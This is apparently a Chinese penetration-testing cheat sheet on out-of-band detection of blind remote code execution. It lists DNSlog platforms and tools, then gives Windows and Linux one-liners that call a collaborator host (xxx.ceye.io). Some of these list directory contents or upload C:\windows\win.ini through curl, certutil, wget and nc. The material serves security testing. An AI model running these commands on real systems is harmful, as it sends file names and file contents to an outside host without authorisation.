 # OOB

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [带外通道技术（OOB）总结](https://www.freebuf.com/articles/web/201013.html)
- [OOB（out of band）分析系列之DNS渗漏](https://cloud.tencent.com/developer/article/1047283)
- [Burpsuite之BurpCollaborator模块介绍](https://www.jianshu.com/p/92b4b8ddf12f)
- [Persistent Access to Burp Suite Sessions - Step-by-Step Guide](https://www.onsecurity.io/blog/persistent-access-to-burp-suite-sessions-step-by-step-guide/)
- [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
- [HTTP BLIND](https://web.archive.org/web/20200224073305/https://echocipher.github.io/2019/07/22/HTTP-BLIND/)
- [Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface)
- [System Hardening을 피해 RCE를 탐지하기 위한 OOB 방법들](https://www.hahwul.com/2022/03/11/bypass-system-hardening-rce-oob/)

**在线监控平台**
- http://ceye.io/
- https://webhook.site
- http://www.dnslog.cn/
- https://iplogger.org/
- https://log.xn--9tr.com/

**相关工具**
- [uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck) - 该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器
- [Buzz2d0/Hyuga](https://github.com/Buzz2d0/Hyuga) - 一个用来检测带外(Out-of-Band)流量(DNS查询和HTTP请求)的监控工具
- [ztgrace/mole](https://github.com/ztgrace/mole) - 识别和利用out-of-band (OOB)漏洞的burp扩展

**平台搭建**
- [十分钟快速自建DNSlog服务器](https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg)
- [DNSLOG的快速搭建攻略](https://www.yinxiang.com/everhub/note/471fd1c4-7885-4b67-aa39-41dc36102b43)
- [安全技术|DNSLOG平台搭建从0到1](https://www.4hou.com/posts/VoJ9)

**平台**
- [BugScanTeam/DNSLog](https://github.com/BugScanTeam/DNSLog) - DNSLog 是一款监控 DNS 解析记录和 HTTP 访问记录的工具
- [lanyi1998/DNSlog-GO](https://github.com/lanyi1998/DNSlog-GO) - DNSLog-GO 是一款 golang 编写的监控 DNS 解析记录的工具，自带 WEB 界面
- [chennqqi/godnslog](https://github.com/chennqqi/godnslog)
    ```bash
    docker pull "sort/godnslog"
    docker run -p80:8080 -p53:53/udp "sort/godnslog" serve -domain yourdomain.com -4 100.100.100.100
    # yourdomain.com 替换为你的域名 100.100.100.100 替换为你的公网IP
    ```
- [yumusb/DNSLog-Platform-Golang](https://github.com/yumusb/DNSLog-Platform-Golang) - DNSLOG平台 golang 一键启动版
- [phith0n/conote-community](https://github.com/phith0n/conote-community) - Conote 综合安全测试平台社区版
- [projectdiscovery/interactsh](https://github.com/projectdiscovery/interactsh) - An OOB interaction gathering server and client library

---

## rce

**Windows**

- ping

    ```
    ping %USERNAME%.xxx.ceye.io
    ```

- certutil

    使用 certutil 请求证书文件，并将下载文件重定向到 nul，无缓存、无需浏览器实现发起 http 请求
    ```bash
    for /F %x in ('dir /b c:\') do certutil -urlcache -split -f "http://xxx.ceye.io/?result=%x" nul
    ```

- curl

    windows 环境默认是支持 curl 的
    ```bash
    for /F %x in ('dir /b c:\') do curl http://xxx.ceye.io/%x

    curl -F file=@C:\windows\win.ini http://xxx.ceye.io
    ```

**linux**

- curl

    ```
    curl http://xxx.ceye.io/%x
    ```

- wget

    ```
    wget http://xxx.ceye.io/%x
    ```

- ping

    linux 默认 ping 不带 -c 参数是会导致无限ping下去的,一定要带 -c
    ```bash
    ping -c 4 xxx.ceye.io
    ```

- openssl

    ```
    openssl s_client -connect xxx.ceye.io:80
    ```

- nc

    ```
    echo -e "GET / HTTP/1.1\nHost: http://xxx.ceye.io/%x\n\n" | nc xxx.ceye.io 80
    ```

- dig

    ```
    dig xxx.ceye.io
    ```
